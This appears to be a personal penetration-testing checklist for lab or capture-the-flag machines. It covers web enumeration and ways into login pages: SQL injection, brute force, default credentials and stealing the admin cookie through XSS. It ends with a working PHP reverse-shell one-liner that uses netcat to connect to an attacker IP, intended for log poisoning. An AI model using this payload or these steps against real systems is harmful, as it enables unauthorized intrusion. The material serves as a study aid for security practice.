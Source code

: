 - [ ]  Web scanning

- [ ]    Robots.txt

- [ ]   View source code

 - [ ]  Hidden Values

- [ ]  Developer Remarks

- [ ]    Extraneous Code

- [ ] Checkout what the web display

- [ ]  Read entire pages. Enumerate for emails, names, user info etc.

- [ ]   Directory discovery

- [ ]  Enum the interface, version of CMS? Server installation page?

- [ ]   Potential vulnerability? LFI, RFI, XEE, Upload?

- [ ]   Default web server page, version information

- [ ]   Passwords

# conditional 
- [ ]  [[HTTP(S)]]
- [ ] [[Directory discovery]]
- [ ] HTTPS certificate 


## Login page

### Steps
-   1. SQL injection


-   2. Bruteforce authentication
 

-   3. Plaintext password
 

-   4.  Credential somewhere in the box

- [ ]   View source code
 

- [ ]    Use default password
 

- [ ]   Brute force directory first (sometime you don't need to login to pwn the machine)
  

- [ ]   Search credential by bruteforce directory


- [ ]    bruteforce credential


- [ ]   Search credential in other service port
 

- [ ]   Enumeration for the credential


- [ ]   Register first

- [ ]  Forget password feature 
 

- [ ]   SQL injection


- [ ]   XSS can be used to get the admin cookie


- [ ]   Bruteforce session cookie


## If you get local file inclusion for log, you maybe can log poisoning the log



```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f') ?>
```